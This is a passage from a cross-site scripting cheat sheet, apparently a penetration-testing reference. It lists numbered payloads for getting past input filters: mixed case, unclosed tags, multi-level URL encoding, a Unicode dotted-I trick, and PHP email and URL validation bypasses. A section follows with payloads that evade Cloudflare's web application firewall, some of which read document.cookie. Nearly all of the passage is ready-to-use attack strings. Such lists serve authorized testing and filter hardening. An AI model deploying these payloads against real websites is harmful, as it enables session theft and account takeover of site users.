 > Add a "]]>" if input lands in a CDATA section

## **XSS Cheat Sheet (Bypass)**
19. Mixed Case
```html
<Script>alert(document.cookie)</Script> 
```

20. Unclosed Tags
```html
<svg onload="alert(1)"
```

21. Uppercase Payloads
```html
<SVG ONLOAD=ALERT(1)>
```

22. Encoded XSS
```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```

23. JS Lowercased Input
```html
<SCRİPT>alert(1)</SCRİPT>
```

24. PHP Email Validation Bypass
```html
<svg/onload=alert(1)>"@gmail.com
```

25. PHP URL Validation Bypass
```html
javascript://%250Aalert(1)
```

26. Inside Comments Bypass
```html
<!--><svg onload=alert(1)-->
```

## Bypass WAF
1. Cloudflare
```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

```